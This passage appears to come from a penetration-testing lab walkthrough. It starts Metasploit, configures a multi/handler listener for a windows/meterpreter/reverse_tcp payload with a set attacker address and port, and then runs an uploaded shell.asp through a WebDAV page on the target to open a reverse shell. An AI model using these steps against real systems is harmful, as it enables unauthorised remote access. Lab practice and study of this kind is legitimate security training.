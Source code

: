 ```bash
service postgresql start && msfconsole
```

* Setup a [Metasploit handler](https://www.rapid7.com/db/modules/exploit/multi/handler/), using the same payload, LHOST, LPORT used to generate the `shell.asp` file within the `msfvenom`

```bash
msf6 > use multi/handler
msf6 exploit(multi/handler) > show options
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.16.2
msf6 exploit(multi/handler) > set LPORT 1234
msf6 exploit(multi/handler) > run
```

* The listener (reverse TCP handler) starts listening and waits for a connection from the actual `shell.asp` payload

<figure><img src="../../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Open the `http://10.4.18.218/webdav` link in the browser and execute `shell.asp` file
* The **Meterpreter** session will be opened and successfully gained access to the target system

